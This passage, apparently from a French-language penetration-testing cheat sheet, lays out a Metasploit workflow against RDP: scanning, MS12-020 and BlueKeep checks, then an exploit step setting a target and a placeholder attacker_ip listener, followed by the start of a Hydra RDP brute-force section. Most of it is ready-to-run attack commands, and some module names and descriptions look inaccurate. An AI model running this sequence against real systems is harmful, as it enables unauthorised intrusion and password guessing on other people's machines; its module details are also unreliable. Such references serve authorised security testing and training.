 ### Modules de brute force
| Module | Description | Usage |
|--------|-------------|-------|
| `auxiliary/scanner/rdp/rdp_scanner` | Scanner avec auth | Brute force intégré |
| `auxiliary/scanner/rdp/cve_2019_0708_bluekeep_rce` | BlueKeep scanner | `use auxiliary/scanner/rdp/cve_2019_0708_bluekeep_rce` |

---

## 🔧 3. Workflow Metasploit pour RDP

### Configuration de base
```bash
msfconsole -q
workspace -a rdp_enum
setg RHOSTS target_ip
```

### Séquence d'énumération RDP
```bash
# 1. Scanner basique
use auxiliary/scanner/rdp/rdp_scanner
set RHOSTS target
run

# 2. Check CVE-2012-0002
use auxiliary/scanner/rdp/ms12_020_check
set RHOSTS target
run

# 3. Check BlueKeep (Windows 7/2008)
use auxiliary/scanner/rdp/cve_2019_0708_bluekeep_rce
set RHOSTS target
run

# 4. Si versions vulnérables détectées
use exploit/windows/rdp/ms12_020_netapi
set RHOSTS target
set LHOST attacker_ip
exploit
```

---

## 💀 4. Brute Force RDP avec Hydra

### Syntaxe Hydra pour RDP
```bash
hydra [OPTIONS] rdp://target
```
